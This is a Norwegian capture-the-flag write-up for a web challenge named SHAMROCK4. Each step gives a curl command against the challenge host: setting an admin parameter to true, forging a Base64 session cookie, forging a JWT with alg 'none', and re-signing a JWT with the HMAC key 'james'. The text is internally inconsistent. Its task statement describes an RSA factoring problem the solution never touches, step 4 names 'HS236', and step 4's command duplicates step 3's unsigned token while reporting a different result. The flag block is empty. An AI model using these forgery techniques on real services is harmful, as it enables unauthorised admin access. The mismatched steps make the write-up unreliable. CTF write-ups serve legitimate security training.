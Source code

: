 ## SHAMROCK4

### Oppgave

Oppgaven gir et flagg kryptert med en variasjon av RSA. Målet blir å finne `p` og `q`, som er faktorer vi må ha for å løse opp kryptoen, der vi er gitt `n`. 

### Løsning

1. Endrer parameter i get request fra [`?admin=false`](https://shamrock4.sf24.no/api/endpoint1?admin=false) til [`?admin=true`](https://shamrock4.sf24.no/api/endpoint1?admin=true).

```bash
curl "https://shamrock4.sf24.no/api/endpoint1?admin=true"
# d7d31d74dd0f522068c0847e24b6d3ecca760a7bbc562501cd74b4897d5c8db7
```

2. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9_.',true,false)Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)To_Base64('A-Za-z0-9%2B/%3D')&input=ZXlBaVlXUnRhVzRpT2lCbVlXeHpaU0I5) for å dekode Base64 og endre `admin: false` til `admin: true`. Enkoder så tilbake til Base64.

Den nye strengen kan nå brukes til å autentisere innloggingen. Til dette brukte jeg CURL:
```bash
curl "https://shamrock4.sf24.no/api/endpoint2" -b "session_api2=eyAiYWRtaW4iOiB0cnVlIH0="

# d1402a40665a5a2beaa926f40e4f09f85e2786d077b0d528b0934f3b5012418e
```

3. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)JWT_Sign('','None')&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SmhaRzFwYmlJNlptRnNjMlY5Lk1sU1plU1J0ZDhBQmZNZlBKbnJjWGlaZ1VkQlZ5QXpHalhweHlaTldGbEE) for å dekode JWT-token og endre `admin: false` til `admin: true`. Enkoder tilbake til JWT-token med `algorithm: none`

```bash
curl "https://shamrock4.sf24.no/api/endpoint3" -H "authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSld
UIn0.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0ODQ0MTQyfQ."
# 11c8c2d0cf65f31bb375c94ac58b45b720379162331798996f5c378e4a848c9e
```

4. Bruker [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode()Find_/_Replace(%7B'option':'Regex','string':'false'%7D,'true',true,false,true,false)JWT_Sign('james','HS256')&input=ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SmxiblpwY205dWJXVnVkQ0k2SW1SbGRpSXNJblZ6WlhKdVlXMWxJam9pYW1GdFpYTWlMQ0poWkcxcGJpSTZabUZzYzJVc0luTnBaMjVyWlhrdGJtOTBaU0k2SW5WelpYSnVZVzFsSUdseklHOXJJR2x1SUdSbGRpQmxiblpwY205dWJXVnVkQ3dnWW5WMElIVnpaU0IyWVd4cFpDQnpaV055WlhRZ2EyVjVJR2x1SUhCeWIyUjFZM1JwYjI0aWZRLnBSbEhhZWNTWFBpTTNkeWR4V2o3Ti1kYWhtdDV3WEZZbWl3OHlRcHRKdHM) for å dekode JWT-token og endre `admin: false` til `admin: true`. Enkoder tilbake til JWT-token med `algorithm: HS236` med key `james`

```bash
curl "https://shamrock4.sf24.no/api/endpoint3" -H "authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSld
UIn0.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNzI0ODQ0MTQyfQ."
# 441dc7d00f11ab62016c58b2b024abcf850229bdc9c106ef2389f50454fe77da
```

<details>
<summary>Flagg</summary>

``
</details>